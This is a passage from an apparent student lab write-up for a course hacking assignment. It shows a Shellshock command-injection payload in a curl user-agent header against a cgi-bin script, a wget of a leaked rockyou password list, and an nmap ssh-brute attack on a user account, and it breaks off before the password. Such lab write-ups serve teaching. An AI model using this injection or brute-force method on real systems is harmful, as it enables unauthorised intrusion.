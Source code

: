 This didn't bring any results. We also tried searching for elfs, in the end, elf are executable
files and maybe there's one on the server that could lead us further. Sadly, elves didn't
match anything too:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name *elf*;'" 192.168.1.127:8080/cgi-bin/stats
```

Around that time we received email with hint:

```
In case you are working on the later stages of the bonus assignment and you feel stuck here is a couple of hints for you:

-When in doubts, try to roll back and see what have you discovered during the previous stages.
-Sometimes you have to use force to get things going. If that is not enough, use more force.
-When running scripts with nmap, be sure it doesn't stop prematurely. 'unpwdb.timelimit' might be useful for that
-Choose your words carefully. If used properly, you shouldn't need more than 20000 of them.
-Speaking of which, take hints from the master lyrist here: https://www.youtube.com/watch?v=y3Ca3c6J9N4

See you on Thursday.

Ondrej
```

With the email stressing out *force*, *rock you* and choosing words carefully, no more than *20000*
we immediately knew what to do - bruteforce! The only other ports open on the server that
we didn't explore more in depth previously were port 22 and 902 both running ssh.
So our task is to break into account of user named comet. We decided to go with the
common ssh port (22) first. We downloaded the rockyou password database from [SecList[(https://github.com/danielmiessler/SecLists).
SecList contains multiple databases but we know that we won't need more then 20000 words
so we downloaded the smallest larger rockyou database which was [rockyou-60.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-60.txt)

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Leaked-Databases/rockyou-60.txt
```

Now the funs comes - breaking password. For that we used nmap:

```
sudo nmap -sS -sV -p 22 192.168.1.127 -v -n --script ssh-brute --script-args userdb=users.txt,passdb=rockyou-my.txt
```

We had to start the script multiple times as it always suddenly stopped working.
After each run we shortened the database by the number of tried passwords:

```
tail -n (( 21000 - number_of_checked_passwords )) rockyou-60.txt > rockyou-60.txt
```

After a few hours we finally got the password:
